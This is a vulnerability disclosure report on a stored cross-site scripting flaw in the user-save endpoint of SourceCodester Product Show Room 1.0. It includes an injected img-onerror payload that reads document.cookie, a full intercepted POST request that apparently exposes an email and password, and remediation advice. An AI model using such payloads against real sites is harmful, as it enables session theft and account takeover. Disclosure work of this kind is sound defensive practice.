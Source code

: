 Stored Cross-Site Scripting Vulnerability in SourceCodester Product Show Room 1.0 
:

    Vendor: Sourcecodester
    Product: Product Show Room 1.0
    Product URL: Product Show Room 1.0

Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Product Show Room 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "Last Name" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.
Issue Details

    Vulnerability Name: Stored XSS in Last Name
    Severity: High
    Affected URL: /psrs/classes/Users.php?f=save
    Affected Parameter: Last Name
    HTTP Method: POST

Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "Last Name" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "Last Name" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.
Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/psrs/classes/Users.php?f=save

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the Last Name parameter as shown below and send the request to the server.

 -----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="Lastname"

"><img src=x onerror=alert(document.cookie)>


 In the browser just create an account and navigate to homepage

https://drive.google.com/file/d/1CHgwoOWEVzS_upDJSTGQBMdSoVwqKAKQ/view?usp=drive_link
Payload:

Content-Disposition: form-data; name="Lastname"

"><img src=x onerror=alert(document.cookie)>


Request:

POST /psrs/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------20625722601167454874980765703
Content-Length: 1176
Origin: http://localhost
Connection: close
Referer: http://localhost/psrs/admin/?page=user/manage_user
Cookie: PHPSESSID=ne013b16edsf0e0up00dsppfhb
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="id"


-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="firstname"

"><img src=x onerror=alert(document.cookie)>
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="middlename"

"><img src=x onerror=alert(document.cookie)>
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="lastname"

"><img src=x onerror=alert(document.cookie)>
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="username"

mohit.ahir7086@gmail.com
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="password"

Ramasra1247@
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="type"

1
-----------------------------20625722601167454874980765703
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream

-----------------------------20625722601167454874980765703--

Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites.
Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.
References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/
Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the Last Name parameter of /psrs/classes/Users.php?f=save, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.
